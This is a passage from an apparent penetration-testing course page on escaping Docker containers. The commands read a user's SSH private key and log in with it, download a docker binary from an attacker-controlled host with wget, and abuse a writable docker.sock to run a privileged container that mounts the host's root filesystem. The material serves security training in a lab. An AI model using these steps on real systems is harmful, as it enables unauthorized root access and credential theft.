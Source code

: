 root@container:/hostsystem/home/cry0l1t3$ ls -l

-rw-------  1 cry0l1t3 cry0l1t3  12559 Jun 30 15:09 .bash_history
-rw-r--r--  1 cry0l1t3 cry0l1t3    220 Jun 30 15:09 .bash_logout
-rw-r--r--  1 cry0l1t3 cry0l1t3   3771 Jun 30 15:09 .bashrc
drwxr-x--- 10 cry0l1t3 cry0l1t3   4096 Jun 30 15:09 .ssh


root@container:/hostsystem/home/cry0l1t3$ cat .ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
&lt;SNIP&gt;
</code></pre>
<p>From here on, we could copy the contents of the private SSH key to <code>cry0l1t3.priv</code> file and use it to log in as the user <code>cry0l1t3</code> on the host system.</p>
<pre><code class="language-shell-session">[!bash!]$ ssh cry0l1t3@&lt;host IP&gt; -i cry0l1t3.priv
</code></pre>
<h4>Docker Sockets</h4>
<p>A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon. This communication occurs either through a Unix socket or a network socket, depending on the configuration of our Docker setup. It acts as a bridge, facilitating communication between the Docker client and the Docker daemon. When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.</p>
<p>Nevertheless, Docker sockets require appropriate permissions to ensure secure communication and prevent unauthorized access. Access to the Docker socket is typically restricted to specific users or user groups, ensuring that only trusted individuals can issue commands and interact with the Docker daemon. By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios. However, depending on the configuration, there are many ways where automated processes or tasks can be stored. Those files can contain very useful information for us that we can use to escape the Docker container.</p>
<pre><code class="language-shell-session">htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
</code></pre>
<p>From here on, we can use the <code>docker</code> binary to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it <a href="https://master.dockerproject.org/linux/x86_64/docker">here</a> and upload it to the Docker container.</p>
<pre><code class="language-shell-session">htb-student@container:/tmp$ wget https://&lt;parrot-os&gt;:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
&lt;SNIP&gt;
</code></pre>
<p>We can create our own Docker container that maps the host’s root directory (<code>/</code>) to the <code>/hostsystem</code> directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the <code>main_app</code> Docker image.</p>
<pre><code class="language-shell-session">htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps
